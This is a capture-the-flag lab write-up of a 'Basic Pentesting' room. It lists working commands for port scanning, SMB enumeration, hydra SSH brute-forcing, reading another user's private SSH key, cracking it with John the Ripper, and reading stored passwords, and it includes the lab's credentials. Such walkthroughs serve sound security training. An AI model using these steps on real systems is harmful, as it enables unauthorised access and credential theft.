

# Basic Pentesting
{: .no_toc}

## Table of contents
{: .no_toc .text-delta}

- TOC
{:toc }

## Description

A room with the following learning objectives:

- brute forcing
- hash cracking
- service enumeration
- Linux Enumeration

## Flow



## nmap

Use nmap to scan open ports of the target host.

```` console
sudo nmap -vvv -p- -sS -A -T4 -oN ~/Boxes/HTB/Basic\ Pentesting/nmap.log 10.10.183.193`

### Flags
-vvv: verbosity level 3\
-p-: all ports\
-sS: stealth scan (stealthy sync packet based scan)\
-A: Enable OS detection, version detection, script scanning, and traceroute
-T4: Set timing template (higher is faster) {0-5}\
-oN: output: normal
````

| Port | Service       | Details       | Note                                     |
| ---- | ------------- | ------------- | ---------------------------------------- |
| 22   | SSH           |
| 80   | http          | Apache/2.4.18 | hosts web page                           |
| 139  | SMB           |               | legacy - via NetBIOS                     |
| 445  | SMB (via TCP) |               | modern - via TCP - e.g. for file sharing |
| 8009 | ajp13         | Apache Jserv  |
| 8080 | http          | tomcat/9.0.7  |

## Browser

Vied target IP in browser. Says "Under maintenance, view dev logs". Tried some random routes - nothing.

### Findings
{: .no_toc}

Error msg indicates:

- Apache/2.4.18 (Ubuntu) Server

## DirBuster (GUI)

Use DirBuster to find hidden directories and files.

### Flags / Options
{: .no_toc}

````console
Work Method: Use GET requests only (is faster)
Use word list 
````

### Findings
{: .no_toc}

Found dirs:

- /development (with dev logs)
  - /dev.txt: Mentioned struts 2.5.12 (with remote code exe vulnerability)
  - /j.txt: Mentioned weak credentials

## enum4linux

Try to find users with enum4linux.

### Command
{: .no_toc}

```` console
enum4linux -a {IP-Address} | tee enum4linux.log
````

### Findings
{: .no_toc}

- Found 2 users: kay & jan

## hydra (password guesser (bruteforce))

Use hydra and rockyou wordlist to  get jan's password.

```` console
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://{IP-Address} 
````

### Flags
{: .no_toc}

```console
-l: Username\
-P: wordlist\
(-t: number of parallel tasks)
```

### Findings
{: .no_toc}

Found user:

- login: jan
- password: armando

## SMB

Anonymous access is open, no password required. Lets sniff around a bit.

### Command
{: .no_toc}

```` console

smbclient //{IP-Address}/anonymous

`?` : list available commands
`l` : list 
`get staff.txt {target path}` : transfer file to local host
````

### Findings
{: .no_toc}

- Found "staff.txt" file - says not to upload non-work-related items

## linpeas

Use linpeas injected via ssh with jan's account gained password to find privilege escalation paths.

### Commands
{: .no_toc}

```` console
Use scp to transfer linpeas.sh to target 
scp /usr/share/peass/linpeas/linpeas.sh jan@{IP-Address}:{target path}
and then ssh into target execute the script with
./linpeas.sh | teee linlog.txt
````

### Findings
{: .no_toc}

Found readable: /home/kay/.ssh/id_rsa

## SSH

Use Jan's ssh credentials to sniff around.

```` console

`cat /home/kay/.ssh/id_rsa` and copy it 
on local host `nano kay_id_rsa` paste and save the file
````

### Findings
{: .no_toc}

Found Kay's private ssh keys (id_rsa)

## John the Ripper

Use John the Ripper to find Kays password from is private key.

### Commands
{: .no_toc}

Run `ssh2john kay_id_rsa > john4kay.txt` to decrypt the private key to a text file readable by John
Run `john john4kay.txt --wordlist=/usr/share/wordlists/rockyou.txt` to reveal the ssh password ("beeswax")
use the ssh password and the id_rsa file to login via ssh as kay `ssh -i kay_id_rsa kay@{IP-Address}`
`ls` in kay's home dir shows a `pass.back` file
`cat pass.bak` reveals his password ("heresareallystrongpasswordthatfollowsthepasswordpolicy$$")

### Findings
{: .no_toc}

kay's password

> WE GOT ROOT

---
